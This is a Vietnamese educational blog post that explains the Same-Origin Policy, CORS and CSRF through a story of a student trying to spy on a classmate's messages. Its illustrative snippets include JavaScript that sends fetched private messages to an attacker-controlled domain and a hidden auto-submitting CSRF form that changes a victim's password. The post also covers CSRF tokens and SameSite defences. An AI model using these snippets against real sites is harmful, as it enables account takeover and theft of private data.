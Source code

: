 ﻿---
url: [/post/sop-cors-va-csrf-khi-long-tin-bi-loi-dung]
title: "SOP, CORS và CSRF – Khi lòng tin bị lợi dụng"
$attribute: PostMetadata(Id = "ec663729-62f8-4e5b-a083-26890da6438b", Title = "SOP, CORS và CSRF – Khi lòng tin bị lợi dụng", Category = "Bảo mật", LastModified = "08-10-2025")
$layout: BlogContentLayout
---

Vào một buổi chiều cuối thu, gió heo may len lỏi qua kẽ lá mang theo chút se lạnh 
của cơn mưa đầu mùa. M tựa vào lan can tầng hai, mắt vô định 
dõi xuống khoảng sân quen thuộc. Ở góc ghế đá cũ, N đang cúi đầu nhìn điện thoại, 
mái tóc đen ngang vai rủ xuống che nửa khuôn mặt. 

Họ quen biết nhau từ năm lớp mười trong một buổi học nhóm. N khi ấy đang loay hoay 
với một bài toán khó. M nhìn thấy, ngập ngừng một chút rồi lén đẩy tờ giấy ghi lời giải về phía cô.  
Cô ngẩng lên, khẽ cười: "Cảm ơn nhé, cứu một mạng người đấy." 
Nụ cười ấy đã khiến trái tim cậu loạn nhịp. 

Những tháng ngày sau đó, qua những cuộc trò chuyện vu vơ ở căn tin, 
những lần chạm mắt ngắn ngủi trong giờ ra chơi, tình cảm của M lớn lên lặng lẽ, 
không lời tỏ bày, cậu dần chú ý đến từng cử chỉ nhỏ. 
Nó trở thành một thói quen, một phần trong nhịp sống của M mà chính cậu cũng không nhận ra. 

Nhưng chiều nay khác. Khóe môi N khẽ cong, ánh mắt sáng lên vì điều gì đó trên 
màn hình. M nheo mắt nhìn, và một cái tên hiện ra — D, người được nhiều bạn trong 
khối nhắc đến với sự ngưỡng mộ. Cậu đứng lặng. Họ đang trò chuyện với nhau qua 
*Hệ thống học tập trực tuyến* (`school-learning.edu.vn`) mà nhà trường vừa triển khai. 
Không cần biết họ đang nói gì, chỉ cần thấy nụ cười ấy thôi M cũng đã hiểu rõ mọi chuyện.

Đêm về, hình ảnh N cười với D cứ lặp lại trong đầu M như một đoạn phim không thể tắt. 
Cậu tự hỏi họ đang nói gì, họ thân đến mức nào. Và rồi, giữa dòng suy nghĩ 
hỗn loạn ấy, một ý tưởng nảy lên, một ý tưởng liều lĩnh, trẻ con và đầy sai trái: đọc trộm tin nhắn của N.

# Kế hoạch hoàn hảo   

Biết N mê xem phim, M đã thức trắng một đêm dựng một trang web xem phim 
với giao diện rất bắt mắt nhờ chút kiến thức ReactJS góp nhặt trên mạng. 
Rồi M nhét vào đó một đoạn JavaScript:
```javascript
fetch('https://school-learning.edu.vn/api/private-messages/N', {
  method: 'GET',
  credentials: 'include' // Gửi cả cookie của N
}).then(response => response.json())
  .then(data => {
    // Gửi tin nhắn lấy được về server của M
    fetch('https://phimhay.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
```

Ý tưởng của M rất đơn giản:
- Khi N truy cập vào trang web xem phim của M, đoạn mã JavaScript này sẽ chạy.
- Đoạn mã gửi một request đến school-learning.edu.vn để lấy tin nhắn 
(request này có kèm theo cookie đăng nhập của N). Server sẽ nghĩ đây là yêu cầu hợp lệ từ 
chính N, và dữ liệu sẽ được chuyển về tay M.
- Sau khi lấy được dữ liệu, nó gửi toàn bộ tin nhắn về server do M kiểm soát.

Sáng hôm sau, M hồi hộp mời N vào trang web: 
"Trang này có nhiều phim hay lắm, cậu thử xem đi!"

N mỉm cười cảm ơn và mở trang. M nín thở chờ đợi.

Nhưng rồi, trình duyệt hiện lên thông báo lỗi đỏ chói:

`
Access to fetch at 'https://school-learning.edu.vn/api/private-messages/N' 
from origin 'https://phimhay.com' has been blocked by CORS policy: 
No 'Access-Control-Allow-Origin' header is present on the requested resource.
`

Kế hoạch tan vỡ. M ngồi sụp xuống, nỗi thất vọng dâng trào như cơn mưa mùa thu bất chợt.

# Same-Origin Policy (SOP) - Bức tường thành của trình duyệt

Bực tức vì thất bại, M tìm đến K than thở, một đại cao thủ về bảo mật của trường.

Ngồi bên tách trà nóng trong căn phòng ký túc xá chật hẹp, K lắng nghe rồi cười nhẹ: 
"Cái này là do Same-Origin Policy (SOP). Nó là chính sách bảo mật của trình duyệt, 
ngăn không cho các script từ một origin đọc tài nguyên từ origin khác để 
tránh rò rỉ dữ liệu nhạy cảm."

K vẽ sơ đồ đơn giản trên tờ giấy nháp: "Một origin được xác định bởi 3 yếu tố:"
`Scheme (Giao thức) + Domain (Tên miền) + Port (Cổng) = Origin`

Ví dụ:

- https://phimhay.com và https://school-learning.edu.vn khác origin vì domain khác nhau
- http://phimhay.com và https://phimhay.com cũng khác origin vì scheme khác nhau
- https://phimhay.com:80 và https://phimhay.com:3000 cũng khác origin vì port khác nhau


"SOP đã ngăn đoạn script từ phimhay.com của mày đọc được response từ 
`school-learning.edu.vn`, dù request đó đã được gửi đi thành công."

# CORS - Cánh cổng có kiểm soát

M cau mày: "Vậy làm sao các trang web gọi API từ domain khác? Như trang phim của 
tao lấy dữ liệu từ TMDB?" K gật đầu, giọng đều đều như dòng suối chảy: 
"Đó là nhờ CORS – Cross-Origin Resource Sharing."

"CORS là một cơ chế cho phép server tự nguyện nói với trình duyệt rằng: 
'Tôi đồng ý cho origin kia truy cập tài nguyên của mình'.

Khi trình duyệt thấy script từ `phimhay.com` gọi API đến `school-learning.edu.vn`, 
nó sẽ gửi kèm một header `Origin: https://phimhay.com`. 
Nếu server đồng ý, nó trả response với Header:
```http
Access-Control-Allow-Origin: https://phimhay.com
Access-Control-Allow-Credentials: true
```

Chỉ lúc đó, trình duyệt mới cho phép đọc dữ liệu. 
"Nhưng server trường học sẽ không bao giờ cho phép domain lạ như của mày," 
K kết luận, khiến M thở dài một cách đầy thất vọng.

# CSRF - Cơ hội cuối cùng

M thở dài, nhung rồi ánh mắt lóe lên khi nhớ ra một điều: 
"Dù SOP ngăn đọc dữ liệu, nhưng tao vẫn có thể gửi request để yêu cầu server
thực hiện hành động."

K mỉm cười: "Mày nói đúng rồi đấy. Đây chính là cơ sở cho kĩ thuật tấn công 
CSRF - Cross-Site Request Forgery."

M hơi nghiêng đầu, nhíu mày, giọng lộ vẻ bối rối: 
"Mày nói rõ hơn được không?"

K gật đầu, giải thích chậm rãi: 
"Hãy tưởng tượng như ai đó giả mạo chữ ký của mày để ký một tờ giấy quan trọng 
thay mày vậy. Trang web xấu sẽ lợi dụng việc trình duyệt tự động gửi kèm cookie 
của nạn nhân đến một site khác, rồi thực hiện hành động thay mặt họ mà họ không hề hay biết." 

"Ví dụ, Nếu hệ thống trường có endpoint đổi mật khẩu đơn giản, 
mày có thể nhúng này form ẩn vào trang web của mình:"
```markup
<!-- Trên web xem phim https://phimhay.com của M -->
<form id="csrfForm" action="https://school-learning.edu.vn/change-password" method="POST" style="display:none">
    <input type="password" name="new_password" value="hacked123">
    <input type="password" name="confirm_password" value="hacked123">
</form>
<script>
    // Tự động submit form khi N truy cập trang
    document.getElementById('csrfForm').submit();
</script>
```

K giải thích tiếp: "Chỉ cần N truy cập trang web của mày, trình duyệt sẽ ngay 
lập tức gửi request đổi mật khẩu."

M mắt sáng lên, nhưng K lắc đầu: "Đừng vội mừng! Các trang web hiện đại đều có cơ chế phòng chống CSRF. 
Phổ biến nhất là CSRF Token - một chuỗi ngẫu nhiên ẩn trong form:

```markup
<!-- Form trên school-learning.edu.vn -->
<form action="https://school-learning.edu.vn/change-password" method="POST">
    <input type="password" name="new_password">
    <input type="hidden" name="csrf_token" value="a1b2c3d4e5f6_random_string">
</form>
```


Server kiểm tra token này khi request được gửi đến và request thiếu token hợp lệ sẽ 
bị từ chối ngay. Và cũng do SOP nên mày cũng đừng mong đọc được token này. 

K giải thích thêm: "Ngoài token, các website còn có những cơ chế bảo vệ khác như: 
- Kiểm tra header Origin và Referer: Server sẽ kiểm tra xem request có thực sự 
đến từ domain của chính nó không.
- SameSite Cookie: Thuộc tính cookie có thể được đặt là `SameSite=Strict` 
hoặc `SameSite=Lax` để trình duyệt không gửi cookie trong các request chéo site.

M im lặng, nhận ra kế hoạch của mình chỉ là ảo mộng. 
Không lâu sau, hệ thống trường học gửi cảnh báo bảo mật về request bất thường 
trên tài khoản của N. Buổi chiều hôm ấy, N tìm đến M, cô nhìn cậu với ánh mắt cô lạnh lẽo như băng. 
"Có phải cậu đứng sau trang web xem phim đó không?" - N hỏi. 

M đứng lặng, mặt tái mét, không một lời biện minh. Lúc chiếc lá vàng cuối cùng rơi xuống 
sân cũng là lúc N quay lưng bỏ đi. M đứng đó, lòng đầy ân hận, nhận ra rằng những 
mánh khóe và thủ đoạn, dù tinh vi đến đâu cũng sẽ bị phơi bày.